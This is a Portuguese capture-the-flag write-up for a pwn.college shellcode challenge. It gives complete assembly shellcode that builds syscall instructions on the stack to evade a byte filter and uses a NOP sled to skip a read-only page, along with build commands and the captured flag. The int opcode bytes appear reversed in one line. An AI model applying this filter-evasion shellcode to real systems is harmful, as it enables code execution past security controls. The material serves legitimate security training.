





# pwn.college — Syscall Shenanigans
### Program Security · Shellcode Writing · No-Syscall + Read-Only First Page

> **Autor:** Pedro Tuttman  
> **Plataforma:** [pwn.college](https://pwn.college)  
> **Categoria:** Program Security — Shellcode Writing  
> **Técnicas:** NOP sled para evasão de página read-only · Runtime self-modifying shellcode · Stack-based syscall construction · Byte-by-byte instruction smuggling · Control flow hijack via `jmp rsp` · Return-address preservation via `rbx` + `jmp rbx`

---

## Descrição do Desafio

O desafio `syscall-shenanigans` combina duas restrições sobre o shellcode:

1. **Nenhuma instrução de syscall, sysenter ou int** — o filtro escaneia os bytes em busca de `0f 05` (`syscall`), `0f 34` (`sysenter`) e `80 cd` (`int`), bloqueando qualquer ocorrência
2. **Os primeiros 4096 bytes (`0x1000`) da região do shellcode têm permissão de escrita removida** — ou seja, a primeira página de memória onde o shellcode é carregado fica **read-only** após a filtragem

O ambiente segue o padrão da trilha: variáveis sanitizadas, file descriptors fechados, EUID modificado. O objetivo continua sendo ler e imprimir o `/flag`.

---

## Reconhecimento Inicial

Como a restrição de syscall era idêntica à do desafio anterior, comecei testando diretamente o `shellcode7` — que resolve o problema de syscall construindo a instrução `0f 05` na stack em runtime. A lógica completa desse shellcode está documentada no write-up [syscall-smuggler.md](syscall-smuggler.md).

```bash
cat shellcode7.raw | /challenge/syscall-shenanigans
```



O resultado foi inesperado: o shellcode **passou pelo filtro** e foi **executado** — mas **não imprimiu nada**. Sem crash, sem flag.

O binário revelou a restrição adicional:

> **"Removing write permissions from first 4096 bytes of shellcode."**

A técnica do `shellcode7` escreve `0f 05` na **stack** (`[rsp]`), não no próprio shellcode — então a proteção da primeira página não deveria ser o problema diretamente. A hipótese foi outra: o shellcode estava correto, mas o buffer `results` — onde o conteúdo do `/flag` é depositado pela syscall `read` — estava declarado dentro dos primeiros `0x1000` bytes. A syscall `read(fd, buf, 0x100)` precisa de permissão de **escrita** no endereço do buffer para depositar os dados lidos do arquivo. Como a primeira página havia tido sua permissão de escrita removida, o `read` falhava silenciosamente — e sem dados no buffer, o `write` não tinha nada para imprimir.

A solução: **empurrar todo o shellcode para além dos primeiros `0x1000` bytes**, garantindo que tanto o código quanto o buffer `results` fiquem na segunda página, que permanece writable.

---

## Primeira Tentativa — `.space 0x1000` (Segfault)

A ideia foi prefixar o shellcode com `0x1000` bytes de espaço vazio, empurrando o código útil para fora da primeira página. Usei a diretiva `.space 0x1000`:



```asm
.globl _start
.intel_syntax noprefix

_start:
    .space 0x1000       # preenche com 0x1000 null bytes (0x00)

    # open("/flag", O_RDONLY) ...
    mov rax, 2
    # ... resto do shellcode7
```

```bash
gcc -nostdlib -static shellcode8.s -o shellcode8.elf
objcopy --dump-section .text=shellcode8.raw shellcode8.elf
cat shellcode8.raw | /challenge/syscall-shenanigans
```



O resultado foi **Segmentation fault**. O motivo: a diretiva `.space` preenche a região com **null bytes (`0x00`)**. Quando o processador chega ao endereço do shellcode e começa a executar, tenta interpretar `0x00` como instrução — o que acessa uma região de memória inválida e causa o segfault antes mesmo de chegar ao código útil.

---

## A Solução — `.rept 0x1000 / .byte 0x90 / .endr` (NOP Sled)

A correção foi substituir o `.space` por um **NOP sled** de `0x1000` bytes. A instrução NOP (`0x90`) é válida e não faz nada — o processador a executa normalmente e avança para a próxima, até chegar ao código útil na segunda página.

A diretiva `.rept N / .byte 0x90 / .endr` instrui o assembler a emitir exatamente `N` bytes `0x90` consecutivos:



```asm
.globl _start
.intel_syntax noprefix

_start:
    .rept 0x1000
    .byte 0x90          # NOP — válido, não faz nada, avança o RIP
    .endr

    # open("/flag", O_RDONLY) → retorna fd em rax
    mov rax, 2
    lea rdi, [rip + flag]
    mov rsi, 0
    mov rdx, 0
    lea rbx, [rip + 0x1a]
    mov rcx, 0x9090909090E3FF
    mov byte ptr [rsp], 0x0f
    mov byte ptr [rsp + 1], 0x05
    mov qword ptr [rsp + 2], rcx
    jmp rsp

    # salva o fd em rdi para o read
    mov rdi, rax

    # read(fd, buf, 0x100) → lê o conteúdo do arquivo
    mov rax, 0
    lea rsi, [rip + results]
    mov rdx, 0x100
    lea rbx, [rip + 0x1a]
    mov rcx, 0x9090909090E3FF
    mov byte ptr [rsp], 0x0f
    mov byte ptr [rsp + 1], 0x05
    mov qword ptr [rsp + 2], rcx
    jmp rsp

    # write(stdout, buf, 0x100) → imprime na tela
    mov rax, 1
    mov rdi, 1
    lea rsi, [rip + results]
    mov rdx, 0x100
    lea rbx, [rip + 0x1a]
    mov rcx, 0x9090909090E3FF
    mov byte ptr [rsp], 0x0f
    mov byte ptr [rsp + 1], 0x05
    mov qword ptr [rsp + 2], rcx
    jmp rsp

    # exit(0)
    mov rax, 60
    mov rdi, 0
    lea rbx, [rip + 0x1a]
    mov rcx, 0x9090909090E3FF
    mov byte ptr [rsp], 0x0f
    mov byte ptr [rsp + 1], 0x05
    mov qword ptr [rsp + 2], rcx
    jmp rsp

flag:
    .string "/flag"
results:
    .space 0x100
```

Compilando e extraindo:

```bash
gcc -nostdlib -static shellcode9.s -o shellcode9.elf
objcopy --dump-section .text=shellcode9.raw shellcode9.elf
cat shellcode9.raw | /challenge/syscall-shenanigans
```

---

## Execução e Resultado Final



O NOP sled executou normalmente pelos `0x1000` bytes, o código útil rodou na segunda página (writable), as syscalls foram construídas na stack em runtime, e a flag foi impressa:

```
pwn.college{YWZqma57gz2crlHtngoocMz-37Z.dJjMywCOzYTNxEzW}
```

---

## Resumo do Fluxo de Exploração

```
1. shellcode7 → passa no filtro, executa, mas não imprime nada
2. Binário avisa: primeiros 0x1000 bytes são read-only → buffer results na 1ª página
3. shellcode8 → .space 0x1000 (null bytes) → segfault: 0x00 é instrução inválida
4. shellcode9 → .rept 0x1000 / .byte 0x90 / .endr (NOP sled) → código útil na 2ª página
5. NOPs executam normalmente → shellcode chega à região writable → flag impressa
```

---

## Comparação entre as Tentativas

| | shellcode7 | shellcode8 | shellcode9 |
|---|---|---|---|
| Lógica de syscall | Runtime via stack | Runtime via stack | Runtime via stack |
| Prefixo de `0x1000` bytes | ❌ Nenhum | `.space` (null bytes `0x00`) | `.rept` (NOPs `0x90`) |
| Resultado | Executa, sem output | Segfault | ✅ Flag impressa |
| Por quê falhou/funcionou | `results` na 1ª página (read-only) | `0x00` é instrução inválida | `0x90` é NOP válido |

---
